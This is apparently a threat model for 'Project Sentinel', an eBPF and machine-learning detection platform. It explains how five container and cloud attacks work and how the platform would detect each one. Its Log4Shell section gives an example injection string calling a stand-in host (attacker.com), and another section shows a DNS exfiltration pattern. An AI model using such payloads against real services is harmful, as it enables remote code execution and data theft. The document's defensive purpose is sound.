 Project Sentinel: Threat Model & Security Analysis

1. Introduction
This document outlines the threat model for Project Sentinel. Its purpose is to identify and analyze potential security threats in modern cloud-native environments, which in turn informs the design, eBPF probe placement, and AI model feature engineering of the platform.

Our threat analysis focuses on attacks that subvert the trust boundaries between containers, the host kernel, and the network. Sentinel is specifically designed to detect the behavioral artifacts of these exploits, even when the specific vulnerability (the CVE) is unknown (a zero-day).

2. Real-World Attack Vectors & Sentinel's Detection Strategy
Below are five real-world CVEs that represent classes of attacks Sentinel is designed to mitigate.

2.1 Container Escape via Runc Vulnerability

CVE: CVE-2019-5736

Class: Container Escape to Host Privilege Escalation

Attack Vector: This vulnerability allowed a malicious container to overwrite the runc binary on the host system. When a privileged user or process later executes docker exec into the malicious container, the compromised runc binary is executed on the host with root privileges, granting the attacker full control over the host node.

Sentinel's Detection Strategy:

Anomalous openat Syscall: Sentinel's eBPF probes monitor openat syscalls. The core of this attack is a process inside a container attempting to open /proc/self/exe (which points to the runc binary on the host) with write permissions (O_WRONLY).

Behavioral Anomaly: The AI model, having been trained on billions of legitimate events, will recognize that a containerized application process never legitimately opens the container runtime binary for writing. This sequence (container_process -> openat("/proc/self/exe", O_WRONLY)) is a massive deviation from the learned baseline and would be flagged with a critical anomaly score.

2.2 Kernel Privilege Escalation via "Dirty Pipe"

CVE: CVE-2022-0847

Class: Kernel Privilege Escalation

Attack Vector: "Dirty Pipe" allowed an unprivileged process to overwrite data in arbitrary read-only files, including privileged files like /etc/passwd or SUID binaries. The attack involves manipulating page caches using pipe() and splice() syscalls in a specific, non-standard sequence.

Sentinel's Detection Strategy:

Anomalous Syscall Sequence: The power of Sentinel's transformer model is its ability to understand sequences, not just individual syscalls. The specific, unusual sequence of pipe(), splice(), and file manipulations is the primary indicator.

Contextual Deviation: An application server, for instance, has a predictable pattern of syscalls related to network I/O and file reads. The sudden introduction of low-level splice() and pipe() operations, combined with attempts to write to a normally read-only system file, creates a highly anomalous sequence that the model will detect.

2.3 Remote Code Execution via Log4Shell

CVE: CVE-2021-44228

Class: Remote Code Execution (RCE)

Attack Vector: A vulnerable Java application using Log4j receives a malicious string (e.g., ${jndi:ldap://attacker.com/a}). The application contacts the attacker's LDAP server, which responds with a payload that causes the application to download and execute a malicious Java class. This leads to a reverse shell or further compromise.

Sentinel's Detection Strategy:

Anomalous Network Egress: Sentinel's network probes observe all outbound connections. A Java application server suddenly making an outbound LDAP connection to an unknown, untrusted IP address is a major red flag. The AI model's baseline for the service would show no history of such traffic.

Anomalous Process Execution (execve): The final stage of the attack involves the Java process spawning a new shell (e.g., /bin/bash, sh -c). The AI model knows that a Java application server process should never be a parent to a shell process. This parent-child relationship (java -> /bin/bash) is a classic indicator of RCE and would be flagged as a critical anomaly.

2.4 Data Exfiltration via DNS Tunneling

CVE: N/A (Technique-based)

Class: Data Exfiltration / Command & Control (C2)

Attack Vector: An attacker who has gained initial access uses DNS queries to exfiltrate data. They encode stolen data into subdomains (e.g., [base64-encoded-data].attacker.com) and make DNS requests. Legitimate firewalls often allow DNS traffic, making this a stealthy exfiltration channel.

Sentinel's Detection Strategy:

Network Traffic Analysis: Sentinel's network probes analyze not just connections but also DNS query patterns. The AI model will learn the baseline for normal DNS traffic (e.g., query volume, domain entropy).

Anomalous Query Patterns: DNS tunneling generates high-volume, high-entropy DNS queries to a single domain. The model will flag this statistical and behavioral deviation from the service's normal DNS activity (which might be limited to a few queries for database hostnames or public APIs).

2.5 Cryptojacking / Resource Hijacking

CVE: N/A (Technique-based)

Class: Resource Abuse

Attack Vector: A compromised container or pod begins running cryptocurrency mining software. This is often characterized by sustained high CPU usage and network connections to known mining pool domains.

Sentinel's Detection Strategy:

Anomalous execve and Network Behavior: A web server pod, for example, suddenly executes a process named xmrig or a similar unknown binary. This new process then makes long-lived, sustained network connections to IP addresses associated with mining pools.

Combined Anomaly Score: Sentinel's AI model correlates these events. The execution of an unknown binary, combined with anomalous network patterns and sustained resource usage (via Prometheus integration), creates a composite anomaly score that clearly points to cryptojacking.